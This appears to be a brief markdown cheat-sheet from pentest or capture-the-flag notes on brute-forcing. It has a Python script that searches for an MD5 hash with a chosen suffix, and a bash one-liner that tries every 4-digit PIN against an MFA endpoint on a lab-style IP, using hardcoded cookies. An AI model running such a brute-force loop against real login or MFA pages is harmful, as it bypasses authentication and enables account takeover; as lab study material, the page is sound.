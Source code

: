 # Bruteforcing

## Find a specific hash

Find a hash that ends with your lucky number:

  #!/usr/bin/env python3
  from hashlib import md5
  from string import ascii_lowercase
  import itertools
  counter=1
  lucky_number='007'
  while True:
    combos=itertools.combinations_with_replacement(ascii_lowercase,r=counter)
    for combo in combos:
      string="".join(combo)
      h=md5(string.encode("utf-8"))
      the_hash=h.hexdigest()
      if the_hash.endswith(lucky_number):
        print(string,the_hash)
        exit()
    counter+=1

## Iterate over pins for MFA codes

Find a 4 digits pin for weak MFA:

  for i in {0000..9999};do echo $i; curl -s -X POST --data "code=$i" 10.10.11.44/console/mfa.php --cookie "user=user_name;pwd=egho"|wc|grep -v "1523"; if [ $? -eq 0 ]; then echo BOOM; break; fi;done
  
